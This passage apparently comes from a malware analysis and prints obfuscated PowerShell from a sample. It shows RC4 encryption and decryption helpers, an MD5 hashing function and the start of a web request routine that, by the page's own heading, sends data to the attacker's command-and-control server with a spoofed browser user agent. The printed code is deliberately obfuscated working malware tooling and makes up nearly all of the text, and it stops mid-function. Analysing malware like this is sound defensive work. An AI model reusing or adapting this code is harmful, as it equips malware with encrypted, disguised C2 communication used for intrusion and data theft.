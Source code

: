 ```csharp
    ${J} = 0
    for (${I} = 0; ${I} -lt 256; ${i}++)
    {
        ${J} = (${J} + ${s}[${i}] + ${k}[${I}]) % 256
        ${TEMP} = ${S}[${I}]
        ${S}[${i}] = ${S}[${J}]
        ${s}[${j}] = ${tEMp}
    }
    ${I} = ${J} = 0
    for (${x} = 0; ${X} -lt ${bUFfER}."LENgTh"; ${X}++)
    {
        ${I} = (${i} + 1) % 256
        ${j} = (${J} + ${s}[${I}]) % 256
        ${TemP} = ${S}[${i}]
        ${s}[${I}] = ${s}[${J}]
        ${S}[${J}] = ${temp}
        [int]${T} = (${s}[${i}] + ${S}[${J}]) % 256
        ${bUFFEr}[${X}] = ${BUFfEr}[${X}] -bxor ${s}[${T}]
    }
  return ${BUFFer}
}
function gET-sTRINghAsh 
{
  param(${STRInG},${HashnaMe} = "MD5")
  ${StRINGbuilDeR} = &("New-Object") ("System.Text.StringBuilder")
   $h6jT::("Create").Invoke(${HaShName})."cOMpUtEhASH"(${ENcodING}.("GetBytes").Invoke(${STrINg}))|&('%'){[Void]${STRINGBuiLdEr}.("Append").Invoke(${_}.("ToString").Invoke("x2"))}
  return ${stRinGbuILDer}.("ToString").Invoke()
}
function ENCrYpt-DaTA
{
  param(${DAta}, ${KEY})
  [Byte[]]${BYTEENC} = ${EnCodiNg}.("GetBytes").Invoke(${DAta})
  [Byte[]]${ByTEKEY} = ${eNCoDInG}.("GetBytes").Invoke(${KeY})
  ${eNCrypTEdbYTeS} = &("Convert-Rc4") ${bYTeENC} ${ByTEkey}
  return ${ENCRYPtedByTEs}
}
function DecRyPT-DaTA
{
  param(${daTA}, ${kEY})
  [Byte[]]${bytekEy} = ${EnCODiNg}.("GetBytes").Invoke(${Key})
  ${dEcRyPTEDBYtES} = &("Convert-Rc4") ${DaTA} ${byTeKEY}
  return ${eNCODING}."GeTSTRiNG"(${decRypTEdbyteS})
}

```

<h6>The next three functions are for sending the data to the C2 with the built URL from the global variables.</h6>

```csharp
function SenD-WEbRequeST
{
  param(${URI},${mEThOD},${Body})
  ${REQuEsT}                                    = (gi vARiaBLE:T2ay).ValUe::("Create").Invoke(${URi})
  ${reQUesT}."TiMEoUt"                          = 10000
  ${rEQUEST}."metHod"                           = ${MethOD}
  ${RequESt}."USEragENt"                        = "Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0"
  ${ReqUest}."CoNtEnTTyPE"                      = "text/html"
  ${rEQuest}."seRvIcEPOInT"."eXpect100CONTiNue" = ${FAlse}
  ${reqUEst}."kEEPALIVe"                        = ${tRUe}
```